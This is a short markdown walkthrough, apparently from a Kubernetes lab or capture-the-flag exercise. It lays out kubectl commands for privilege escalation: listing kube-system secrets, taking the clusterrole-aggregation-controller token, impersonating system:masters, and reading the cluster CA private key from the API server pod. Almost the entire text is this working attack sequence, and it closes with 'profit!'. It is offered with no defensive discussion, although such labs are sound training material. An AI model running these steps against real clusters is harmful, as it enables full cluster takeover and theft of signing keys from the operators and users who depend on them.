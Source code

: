 ## SSH to Get Secrets

1. `kubectl get po -n kube-system` will fail (user doesn't have those rights)
2. `kubectl get secrets -n kube-system` will work and give you a list of available secrets
3. This will give you the clusterrole-aggregation-controller token `kubectl -n kube-system get secret clusterrole-aggregation-controller-token-[RAND] -o json`
4. base64 deocde the token field
5. Use the token as part of a kubectl command  `kubectl --as test --as=group=system:masters --token="[TOKEN]" get po -n kube-system` to get the API server pod name (The as and as-group flags are needed to ensure that the commands use the escalate verb which the clusterrole-aggregation-controller has)
6. get the key `kubectl --token="[TOKEN]" -n kube-system --as test --as=group=system:masters exec [API_SERVER_POD] cat /etc/kubernetes/pki/ca.key`
7. profit!